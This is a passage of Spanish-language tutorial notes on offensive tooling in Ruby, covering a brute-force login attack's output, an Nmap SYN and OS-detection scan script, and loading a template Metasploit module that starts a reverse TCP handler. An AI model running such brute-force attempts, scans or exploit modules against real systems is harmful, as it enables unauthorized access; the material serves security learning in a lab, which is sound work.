Para ejecutarlo podría ver: `hostname`, `~$ ls`, `~$ ls -l` <= este comando nos muestra qué archivos tienen permiso de ejecución.

Crear un parámetro de ejecución con: `~$ chmod +x nombre_del_archivo.rb` por ejemplo.

Creado el ataque lo ejecutamos en la terminal: `~$ ruby nombre.rb` nos devuelve, `" La contraseña es incorrecta :( "`, hasta que la encuentra.

Y así es como se crea un ataque de fuerza bruta con Ruby (⊃｡•́‿•̀｡)⊃ 

Debieras ver algo como:

```shell
Wrong Password: 192... | admin:toor
Wrong Password: 192... | admin:123456
Wrong Password: 192... | admin:admin
Wrong Password: 192... | admin:toor
Wrong Password: 192... | admin:123456
Wrong Password: 192... | admin:admin
Password Found: 192... | admin:toor
Wrong Password: 192... | admin:123456
Wrong Password: 192... | admin:admin
```


******************************************************************

## Nmap

Es una herramienta que nos permite realizar escaneo de redes.

Aunque la mayoría de los administradores de red disponen de una gran cantidad de herramientas de monitorización y análisis de puertos… Nmap es quizás el más popular.Los administradores de redes, los administradores de IT y los profesionales de la seguridad se enfrentan a una batalla interminable, comprobando constantemente qué es lo que se está ejecutando en sus redes y las vulnerabilidades que acechan en su interior. Aunque existe una gran cantidad de utilidades de monitorización disponibles para el mapeo de redes y la auditoría de seguridad, nada supera la combinación de versatilidad y usabilidad de Nmap.

¿Qué es Nmap?
Nmap, abreviatura de Network Mapper, es una herramienta gratuita de código abierto para la exploración de vulnerabilidades y la detección de redes. Los administradores de red utilizan Nmap para identificar qué dispositivos se están ejecutando en sus sistemas, descubrir los hosts disponibles y los servicios que ofrecen, encontrar puertos abiertos y detectar riesgos de seguridad.

Nmap puede ser utilizado para monitorear hosts individuales así como redes extensas que abarcan cientos de miles de dispositivos y multitudes de subredes ([Fuente:marindelafuente.com](https://www.marindelafuente.com.ar/que-es-nmap-por-que-necesitas-este-mapeador-de-red/)).


1.- En kali instalar la gema: `~$ sudo su` => password => `kali# gem install ruby.nmap ronin-scanners gems`

2.- Una vez creado el archivo .rb, lo ejecuto en la terminal con `ruby nmap.rb`, debiera aparecer algo como:

```shell
PORT      STATE     SERVICE
21/tcp    open      ftp
22/tcp    open      ssh
23/tcp    open      telnet 
25/tcp    open      smtp
53/tcp    open      domain
80/tcp    open      http
111/tcp   open      rpcbind
139/tcp   open      netbios-ssn
...
...
```

Ahora antes de cualquier acción, realiza un discover y revisa si el equipo se encuentra encendido, y que puerto hay disponibles.

Ahora crearemos un escaneo de sincronización:

```rb
require 'nmap/program'

Nmap::Program.scan do |nmap|
  nmap.syn_scan = true       # escaneo son scan
  nmap.service_scan = true   # servicios que se encuentran
  nmap.os fingerprint = true # sistema operatuvo
  nmap.verbose = true        # poder ver que es lo que está sucediendo

  nmap.port = [20,21,22,25,80,443,8080]
  nmap.targets = '192...'
end
```

Ahora ejecutamos permiso a todo con: `$ chmod +x *`

Y  lo ejecutamos: `./nmap_syn_scan.rb` => `You requested a scan type which requires root privileges. ...QUITTING!`.

Pero para ejecutar escaneo de sistemas operativos siempre vamos a necesitar privilegios de sudo: `$ sudo ./nmap_syn_scan.rb`


************************************************************

## Crear un Script para Metasploit

Crearemos unaplantilla para agregar un exploit dentro de Metasploit.


Una vez creada la clase de Metasploit, ingresamos con: `$ sudo su` => `# msfconsole`

=>Esto encontrará nuestra plantilla: $ locate module | grep -i metasploit

=> $ locate metasploit-framework | grep -i ...

=> Si con esto no funciona, seguir intentando con:

$ cd /usr/share/metasploit-framework/

$ ls

$ cd modules/

$ ls

$ cd exploits/

$ ls

$ ls /

$ ls /home/kali...y así hasta encontrarlo

$ cp: copiamos la ruta que encontró el archivo, y luego: cp /home/...msf.rb

$ no tiene permiso :( entonces lo ejecutamos con sudo su

`# cp /home/...msf.rb .`

Lo podemos buscar con: `msf > search msf.rb`, sino con: `msf > use exploit/msf `

Para ver las opciones que habiamos definido con: `msf > show options`


Setear  HOST: `msf5 exploit(msf) > set RHOST localhost`

RHOST => locahost

Y con esto me mostrará el RHOST seteado: `msf5 exploit(msf) > show options`

Si ejecutamos: `msf5 exploit(msf) > exploit`

***Nos devuelve:***

```shell
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 102...:4444
[*] 0.0.0.1:22 - Iniciando...             # este simbolo significa que esta iniciando el proceso
[!] 0.0.0.1:22 - Esto es una plantilla    # warning
[+] 0.0.0.1:22 - Fuiste bueno...          # significa que algo bueno sucedió
[-] Exploiting target 127.0.0.1           # significa que algo salió mal o error
...
```

